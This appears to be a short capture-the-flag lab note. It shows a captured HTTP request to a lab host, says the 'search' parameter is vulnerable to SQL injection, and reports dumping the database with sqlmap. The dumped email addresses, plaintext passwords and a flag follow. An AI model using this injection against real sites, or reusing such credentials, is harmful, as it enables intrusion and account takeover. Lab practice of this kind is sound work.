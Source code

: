 >POST /index.php HTTP/1.1
> Host: 10.10.110.88
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 22
> Origin: http://10.10.110.88
> Connection: close
> Referer: http://10.10.110.88/index.php
> Cookie: PHPSESSID=sak6kosddojsenij84iufmlfjs
> Upgrade-Insecure-Requests: 1
> 
> search=fd&type=username

search parameter is vuln to sql injection
dumping all secrets by sqlmap

mark@0x0security.com $Ul3S@t0x0S3c mak
robert@security.com iL0v3l!nux linuxrobert
bob@gigantichosting.com P@ssw0rd1! bob
bob.billings@gigantichosting.com P@ssw0rd1! bob.billings

APTLABS{P@sS0rD_R3Us3} Password123